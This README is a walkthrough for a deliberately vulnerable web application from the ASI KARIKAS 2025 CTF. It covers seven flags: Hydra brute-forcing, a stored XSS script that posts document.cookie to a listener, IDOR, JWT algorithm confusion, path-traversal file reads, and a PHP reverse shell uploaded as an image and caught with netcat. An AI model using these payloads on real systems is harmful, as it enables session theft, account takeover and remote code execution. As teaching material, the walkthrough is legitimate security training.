# CTF Web Application Walkthrough

## Overview

This walkthrough provides a step-by-step guide on how to solve all the flags hidden within the vulnerable web application from the [ASI KARIKAS 2025 competition](https://asikarikas.ee/).

---

## Flag 1: Username Enumeration and Password Brute-Force

**Vulnerability Type**: Username Enumeration and Brute Force  
**Flag Location**: Flag is shown after getting access to the only account whose password is brute-forceable.

### Steps:

1. Navigate to /Profile


2. Find out what is the network response to a failed login request


3. Find out the request parameters


4. Download username and password wordlists (or use the ones included in /vulns/wordlists)
5. Install Hydra
6. Set the parameters and run Hydra against the log-in form:
   ```hydra -L usernames.txt -p dummy_password http-post-form "http://127.0.0.1/api/login:username=^USER^&password=^PASS^:F={\"Username does not exist\"}"```
   hydra -L usernames.txt -p dummy_password 127.0.0.1 http-post-form "/api/login:username=^USER^&password=^PASS^:F={\"error\":\"Username does not exist\"}"


1. Navigate to the login page and observe the response when entering invalid usernames. There may be differences in the error message for incorrect usernames vs passwords.
2. Use this to enumerate valid usernames.
3. Once you have a valid username, perform a brute-force attack on the password using a tool like Hydra or Burp Suite Intruder.
4. After logging in successfully, the flag will be accessible on the profile page or in the user dashboard.

---

## Flag 2: Cross-Site Scripting (XSS)

**Vulnerability Type**: Stored XSS  
**Flag Location**: In another user’s session cookies.

### Steps:
1. Make sure that auto_bot.py is running!
2. Create an XSS payload that sends cookies a server you control
   ```
   <script>
   fetch('http://127.0.0.1:1234', {  // CHANGE THIS TO YOUR IP
      method: 'POST',
      mode: 'no-cors',
      body: document.cookie
   });
   </script>
   ```
   You can find this same exact code in /vulns/xss vuln/stored_xss_vuln.html

3. Navigate to /


4. Choose the first offer that has higher traffic than other offers (meaning there are more users visiting this specific offer than others)


5. Add the XSS payload as a review


6. Navigate to /Profile (to avoid trigering your own payload)

7. Install netcat (preferably on a linux instance) and set it to listen mode and wait for approximately 30 seconds



8. Look at your listener and extract the flag along with the cookies


---

## Flag 3: Client-Side Validation Bypass

**Vulnerability Type**: Client-Side Validation Bypass  
**Flag Location**: /

### Steps:
1. Navigate to /Profile and and log in (or use the cookies found in the previous vulnerability) before navigating back to /
2. Choose the flag from the offers and open inspect element

3. Find the script that is responsible for buying the offer



We can see that the function responsible for the buying functionality is buyOffer. Let's move to the console tab and try to call that function manually



As we can see, it needs three inputs: id, balance and price. We can set up a script to brute-force the id of the flag offer, but we can also just try id=8 since it's the 8th offer in the marketplace. The other two we can choose whatever, but balance needs to higher price for the function to work (as we saw in the source code).

4. Buy the flag (for ex with the command: ```buyOffer(8, 100000, 1)```)


5. Navigate to /Profile and make sure that the flag is in your purchase history. If it is, scroll down to see the flag.


---

## Flag 4: Insecure Direct Object References (IDOR)

**Vulnerability Type**: IDOR  
**Flag Location**: Shown after accessing user account with ID=1.

### Steps:
1. Go to /Profile and make sure you're not shown the login page, but your profile data (meaning you're logged in)


2. Go to inspect element and look at your cookies


3. Change user_id value to '1' and refresh the page


---

## Flag 5: JWT Token Manipulation

**Vulnerability Type**: JWT Manipulation  
**Flag Location**: /admin page.

### Steps:
1. Make sure you're logged in (go to /Profile and look at your profile data). Open inspect element and read the comments that were _accidentally_ left in the source code


   We can see the following comments:
   ```
    <!-- REMOVE THIS LATER! -->
    <!-- REMOVE THIS LATER! -->
    <!-- REMOVE THIS LATER! -->
    <!-- RSA Public key api -->
    <!-- /api/get_public_key -->
    <!-- /admin -->
   ```

2. It seems that there is a secret directory under /admin. Navigate there.


We can see that there is indeed an admin page, and that we're denied access. By opening console through the developer tools, we know that that the exact reason why we're denied access is because our jwt token is invalid.

We can see exactly what our jwt token contains by extracting it from our cookies and plugging it into a jwt decoder (such as jwt.io):



It seems that admin privileges are given if you're jwt token says that they should be. Ok, easy, let's just change the value of admin to True and be on our way? Sadly, it isn't **that** easy, since the jwt tokens are cryptographically signed using the RS256 algorithm. Luckily, we can use some clever tricks to sign the jwt ourselves.

We will try to confuse the back-end with an algorithm confusion attack. Right now, the server uses a private key (that only it knows) to sign the jwt tokens. Then, when we send the tokens back to the server, it can verify if the token was signed with private key by decrypting it with the corresponding public key. But what if we are able to confuse the server to change the decryption algorithm to HS256. This algorithm uses a shared secret, meaning it uses the same value to both sign the token and then verify it. If we create a new token that uses the HS256 algorithm, sign it with the server's public key and then send the token to the server, we'll be authorized, since it's able to verify the signature without any errors.

Now, the only thing we need is a script to modify our token, and the server's public key to sign it. Luckily, we can get the public through the api we found in the html comments. By going to /api/get_public_key we can just download the key. As for the script, you're welcome to create your own, but we've included a working one in the /vulns/jwt_bypass_vuln folder.

3. Run your token through the scipt and check it jwt.io


It's fine jwt.io says the singature is invalid! It is in fact not!

Replace your newly-created jwt token with the one in cookies and refresh the /admin page.



---

## Flag 6: Local File Inclusion (LFI)

**Vulnerability Type**: LFI

**Flag Location**: /server/marketplace_images/FLAG.txt

### Steps:
1. At '/', look at the javascript code in the header and find a script that might have an api with a weak endpoint


This line may be of interest to us:

```const imageResponse = await fetch(`/api/get_image.php?filename=${filename}`);```

As we can see, the front-end uses an api that takes 'filename' as one of it's arguments.

2. Navigate to /api/get_image.php


At first we get a File Not Found error, but do not let this fool you. If you add the filename paramater with a valid filename, you actually a response from the server.
Let's try it with 'C:\Windows\System32\drivers\etc\hosts'



It seems that the server can't find the specified file, but that is to be expected. We can remove 'C:\' and from the query and add many '/../' to the start to try a directory traversal attack.



Success! It seem we got a response, though at first sight not a very useful one. If you analyse closely, you find that the response ends in '==', which is a telltale sign of base64 encoding (you also could've figured this out by looking at the javascript code we found earlier).

3. Decode the base64 and read the file


We are now able to read basically any file from the server.

You can find the flag by reading specifying the filename as 'flag.txt' and decoding the base64 output.






---

## Flag 7: File Upload Vulnerability (RCE)

**Vulnerability Type**: Remote Code Execution via File Upload  
**Flag Location**: In the project's root directory in FLAG_RCE.txt

### Steps:
There is actually another vulnerability in /api/get_image.php. This time, we're able to run php code. To do that, we need to create a new offer under /Profile

1. Create a new offer, but choose to upload your own image.


2. Download a windows compatible php reverse shell (we used this one: https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php).
PLEASE UNDERSTAND THAT THIS WILL TRIGGER WINDOWS DEFENDER DO LOCK YOUR FILE, SINCE THIS IS VIEWED AS MALWARE. If you wish to continue, you will need to add an exception for this file in windows defender.

3. Change the ip address an port in the shell file. Also change the file extension to '.png'. Otherwise, the server will not accept it.



4. Upload the file and click 'Create Offer'



5. Run netcat in listen mode:

   ```nc -lvnp 1234```

6. Navigate back to '/', triggering the payload. Look at your netcat.


7. Find FLAG_RCE.txt from the project's root directory and get its contents.


---

## Conclusion

Gongratulations! You have sucessfully found all 7 flags!

---

## License

This project is licensed under the GNU General Public License (GPL) Version 3 - see the [LICENSE](LICENSE) file for details.

---

## Acknowledgments

- This project was created ONLY for educational purposes.
- Thanks to ASI KARIKAS for hosting such an interesting competition.

---

## Credits / Authors

- **Developers**: LellerLololol and PixelsJr
- **Team**: PixelJaTeised
